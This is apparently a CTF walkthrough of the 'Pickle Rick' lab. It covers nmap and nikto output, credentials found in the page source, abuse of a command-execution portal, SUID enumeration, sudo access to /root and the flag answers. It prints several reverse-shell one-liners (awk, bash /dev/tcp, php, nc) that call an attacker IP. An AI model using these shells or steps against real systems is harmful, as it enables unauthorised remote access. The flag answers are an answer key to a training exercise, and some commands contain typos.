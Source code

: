 ``IP Address = 10.10.12.75``

# Nmap Scan Result

## Open Ports:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
### Operating System: Ubuntu


Command: `nmap -sTV -O -sC {IP Address}`


### Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.12.75
+ Target Hostname:    10.10.12.75
+ Target Port:        80
+ Start Time:         2021-05-02 01:37:19 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-05-02 02:31:46 (GMT-4) (3267 seconds)
------------------------------------------------------------------
```

Command Syntax: `nikto -host http://{IP Address}`


## Target WebServer Enumeration

Main page of the website have comment on its source code that is 

Username: `R1ckRul3s`

that looks usefull. target website page or subdirectry robots.txt have rendom string that is`Wubbalubbadubdub`This is Suspicious  

## Directry Scanning 

`/assets`
this have some Common Thing use in website nothing more
`robots.txt`

As nikto finds `login.php` so go for it.They required username and password we found username and some rendom string try for it 

It works and they provide some command execution portal and this is vulnerable and good for us

Use ls and there is first ingreden `Sup3rS3cretPickl3Ingred.txt` use cat to view the content of the file. looks they use some filters for command so how we see the content of the file. There are some other command also like `more`,`head`,`tail`,`less` use it find which will works

There is not need for getting rev-shell but i can try to get reverse shell for furthure Post Exploitation

## Getting reverse shell 

start a lisener on your machine with netcat and pawncat which you use

unfortunativly i can't get the reverse shell and 

but by checking the source code of the portal.php file i found some base64 encode string 

by decoding it this is "rabithole"

After try alot of reverse shell code i get connetion with this reverse shell code

``awk 'BEGIN {s = "/inet/tcp/0/10.8.186.33/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null``

now we can try to find other ingredent and they are in /home/rick directry its name is second ingredients
**Note: they have spaces in there name so use the quotes in the command for see this file like the following command**

``less /home/rick/"second ingredients"``

This give me reveseshell but this only replicat the webshell in your terminal this is not normal shell and there you use all commands that are terminate like cat,more,head. i try to gain proper reverse shell which the following code but i cant. php and netcat number 4 shell work but that are not that usefull.

```
1) bash -i >& /dev/tcp/10.8.186.33/5555 0>&1

2) php -r '$sock=fsockopen("10.8.186.33",5555);exec("/bin/sh -i <&3 >&3 2>&3");'

3) nc -e /bin/sh 10.8.186.33 5555

4) rm -f /tmp/p; mknod /tmp/p p && nc 10.8.186.33 5555 0/tmp/p
```

So, now i using the web shell for finding the ingredent so first i use the following command for suid 

``fing / -perm /4000 2>/dev/null``

They show me the following result 
```
/snap/core/5742/bin/mount
/snap/core/5742/bin/ping
/snap/core/5742/bin/ping6
/snap/core/5742/bin/su
/snap/core/5742/bin/umount
/snap/core/5742/usr/bin/chfn
/snap/core/5742/usr/bin/chsh
/snap/core/5742/usr/bin/gpasswd
/snap/core/5742/usr/bin/newgrp
/snap/core/5742/usr/bin/passwd
/snap/core/5742/usr/bin/sudo
/snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/5742/usr/lib/openssh/ssh-keysign
/snap/core/5742/usr/lib/snapd/snap-confine
/snap/core/5742/usr/sbin/pppd
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
/snap/core/6350/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ntfs-3g
/bin/ping
/bin/su
/bin/ping6
/bin/mount
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

There i see sudo have suid bit on by using this i can see the root folder igredent. first see what is the name of the file of third igredent using 

``/usr/bin/sudo ls -al /root``

Using this i come to know the file name is `3rd.txt` so just using the following command and i see the ingredent

`/usr/bin/sudo less /root/3rd.txt`




Here we find all the ingredent 
```
Q1:What is the first ingredient Rick needs?
A: mr. meeseek hair

Q2:Whats the second ingredient Rick needs?
A:1 jerry tear

Q4:Whats the final ingredient Rick needs?
A:fleeb juice
```
